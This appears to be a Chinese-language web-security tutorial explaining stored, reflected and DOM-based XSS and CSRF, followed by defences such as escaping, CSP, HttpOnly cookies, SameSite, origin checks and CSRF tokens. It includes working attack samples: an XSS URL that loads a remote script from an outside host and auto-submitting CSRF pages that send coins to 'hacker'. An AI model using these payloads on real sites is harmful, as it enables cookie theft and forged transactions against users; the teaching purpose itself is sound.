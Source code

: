 ## XSS和CSRF攻击

### XSS
XSS 即Cross Site Script 跨站脚本攻击

XSS攻击指的是攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端页面进行篡改，从而在用户访问篡改页面时能够获取用户的隐私数据

XSS攻击主要分为3类
- 存储型
- 反射型
- 基于DOM

#### 存储型XSS
攻击者将恶意代码存储到服务器上，当正常用户访问到有恶意代码的页面时，可以获取用户信息上传到攻击者的恶意服务器上

<img src="./xss存储型.jpeg">

通过上面的示意图，我们可以了解到，xss存储型攻击分为3步
- 首先黑客利用网站漏洞将一段恶意代码提交到网站数据库中
- 然后正常用户访问到了包含恶意代码的页面
- 当用户访问到页面时，恶意代码就会把用户的cookie等隐私数据发送到恶意服务器

攻击者就可以利用cookie中的数据模拟登录等操作修改用户的信息，或者收集数据牟利

著名的例子就是喜马拉雅的这个事故
<img src="./xss存储型示例.jpeg">
当页面渲染到这里时会直接把这段js直接输出到页面上，从而执行里面的js，达到获取当前访问用户信息的目的

#### 反射型XSS
反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种方式往往需要攻击者诱使用户点开一个恶意链接，或则点击一个按钮，提交一个表单等操作

比如简单的
正常链接：http://localhost:3000/?xss=123

恶意链接：http://localhost:3000/?xss=< script>alert('你被xss攻击了')</ script>

参数中可以执行很多逻辑

比如：服务器接收到xss这个参数，然后填充到了页面某个位置返回给了浏览器，此时就会执行注入的代码

#### 基于DOM的XSS攻击
这种攻击不会发送到服务器，只是dom层面的攻击

常见的操作有
```js
<body>
    <script>
        window.onload= function(){
            var oBox=document.getElementById("box");
            var oSpan=document.getElementById("span1");
            var oText=document.getElementById("text1");
            var oBtn=document.getElementById("Btn");
            oBtn.onclick = function(){
                oBox.innerHTML = oBox.innerHTML + oSpan.innerHTML + oText.value + "<br/>";
                // oBox.innerHTML += oSpan.innerHTML + oText.value +  "<br/>";//这是简便的写法，在js中 a=a+b ,那么也等同于 a+=b
                oText.value=""
            };
        }
    </script>

    <div id="box"></div>
    <span id="span1">小明：</span>
    <input type="text" id="text1"/>
    <input id="Btn" type="button" value="发送消息" name=""/>
</body>
```
我们给text1中填入一段js代码，当我们执行innerHTML的时候就会触发这段js，常见的操作还有outerHTML,eval等等，但是我不知道怎么才能攻击别人

这种方式可以

https://xxx/index.html#document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>

这样就可以注入一段js到页面了，还是可以发链接给其他人

### CSRF
CSRF全称是 Cross Site Request Forgery ，跨站请求伪造，黑客诱使用户打开一个自己网站，在黑客的网站中借用用户的登录态，像另一个网站发出伪造的请求。

比如我们假使一个网站有金币，并且这个网站有转账功能，黑客先是访问网站获取所有cookie，然后开发一个比如黄色网站，诱使用户登录（注意用户有可能很多网站用户名密码是用的同一个），这时构造出一个新的cookie，直接调用有金币网站的转账接口就能实现牟利的目的了

#### 手段
- 自动发起get请求
    ```js
        <! DOCTYPE html> 
        <html>
            <body>
                <h1>黑客的站点: CSRF攻击演示</h1>
                <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100"> 
            </body>
        </html>
    ```
- 自动发起post请求
    ```js
        <html>
            <body>
                <h1>黑客的站点: CSRF攻击演示</h1>
                <form id= 'hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
                <input type="hidden" name="userll" value="hacker" />
                <input type="hidden" name="numberll" value="100" />
                </form>
                <script> document.getElementById ('hacker-form').submit(); </script> 
            </body>
        </html>
    ```
- 引诱用户点击链接
    ```js
    <div>
        <img width=150 src=http://images.xuejuzi.cn/1612/1-161230185104_1.jpg> </img> 
        <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_bla点击下载美女照片"
        </a>
    </div>
    ```
上面丢个图片下面丢个链接，诱使用户点击

### 攻击防御
#### XSS防御

1. 服务器对输入脚本进行过滤或转码

    比如 code:<script>alert('你被 xss 攻击了')</script>

    转换成： code:

    或则：code:&lt;script&gt;alert(&#39; 你被 xss 攻击了 &#39;)&lt;/script&gt;

2. 客户端充分利用 内容安全策略（CSP）

http头部指定Content-Security-Policy: policy
- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止像第三方域提交数据
- 禁止内联脚本和未授权脚本
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击

3. 使用 HttpOnly 属性
   由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。
   
   使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie

#### CSRF防御
1. 充分利用好Cookie的SameSite属性
   在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项
   - Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
   - Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 GET 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法,或者通过 img，iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
   - 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据
2. 验证请求的来源站点
   服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用Referer值。

   校验refer或者origin
3. CSRF Token
   
   第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token，CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中

   第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。


